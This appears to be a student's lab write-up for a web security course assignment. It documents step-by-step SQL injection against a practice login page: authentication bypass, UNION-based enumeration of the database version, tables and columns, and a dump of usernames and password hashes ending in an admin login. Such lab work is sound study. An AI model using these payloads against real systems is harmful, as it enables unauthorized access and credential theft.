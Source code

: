 # Assignment curs 3

- access page: http://193.226.5.99/websec2/index.php

**Attempt 1:**
- username: `' OR 1=1`
- password: `' OR 1=1`
- motivation: supposed that the query is made with the following pattern:
``` 
SELECT columns FROM table WHERE username=$username AND password=$password;
```

**Attempt 2:**
- username: `'`
- password: `'`
- motivation: trying to trigger an error to retrieve more information about the query formulation (Only th generic error message)

**Attempt 3:**
- username: `' OR 1=1 -- `
- password: `something`
- received:
``` 
You are getting close.
Hint: too many results matched in the database.
```

**Attempt 4:**
- username: `' OR 1=1 LIMIT 1 -- `
- password: `something`
- received:

|Nume	|Email|
|-------|------|
|John Brown	|john.brown@email.com|
|Ana Soare	|ana.soare@corporate.com|
|Sorin Harvey|	sharvey@customemail.com|
|Joe Black	|black@myemail.com|

**Steps from [lab2 assignment](../lab2/WS%20-%20Assignment%202.pdf)**

- `' order by 5 -- ` 

-> throws error
- `' order by 2 -- ` 

-> order by name => name is the second column in table
- `' order by 3 -- ` 

-> order by mail => mail is the third column in table

- `' union select NULL, NULL, NULL, NULL -- ` 

-> gives the same result as after login (+ an empty row)

- `' union select NULL, NULL, NULL, @@VERSION -- ` 

-> also adds an empty row to the result

- `' union select 3, @@VERSION -- ` 

-> throws error

- `' union select @@VERSION, @@VERSION, @@VERSION, @@VERSION -- ` 

-> gives the version on the last row (both cells) -> `10.5.15-MariaDB-0+deb11u1`

- `' union select system_user(), system_user(), system_user(), system_user() -- ` 

-> same as the above, but the result of `system_user()` is `ws_user@localhost`

- `' union select database(), database(), database(), database() -- ` 

-> same as the above, but the result of `database()` is `websec2`

- `' UNION SELECT NULL, concat(table_name), NULL, NULL FROM information_schema.tables WHERE table_schema=database()#` 

-> returned `ag3nda` and `ut1l1zat0r1`

- `' UNION SELECT NULL, concat(column_name), NULL, NULL FROM information_schema.columns WHERE table_schema=database() # ` 

-> returned `id`, `nume_prenume`, `adresa_email`, `nr_telefon`, `ut1l1zat0r`, `pass_s3cr3t`

- `' UNION SELECT NULL, concat(column_name), NULL, NULL FROM information_schema.columns WHERE table_schema=database() AND table_name='ut1l1zat0r1' # ` 

-> returned `id`, `ut1l1zat0r`, `pass_s3cr3t`

- `' UNION SELECT NULL, concat(column_name), NULL, NULL FROM information_schema.columns WHERE table_schema=database() AND table_name='ag3nda' # ` 

-> returned `id`, `nume_prenume`, `adresa_email`, `nr_telefon`

- `' UNION SELECT NULL, ut1l1zat0r, pass_s3cr3t, NULL FROM ut1l1zat0r1 # ` 

-> returned:
|...|...|
|---|---|
|Th3Aw3s0meAdm1nistr@t0r|	1954e5145b89ba48cdb45fe771728951|
|UsEr%2	|d29e10a06574435bd04aae17a8cfbbe2|
|us3r.3|	0aed5d740d7fab4201e885019a36eace|

login:
- username: `Th3Aw3s0meAdm1nistr@t0r' -- `
- password: `parola`

- returned: same page but with an additional link: `Go to administrator page`

![final](./final.png)
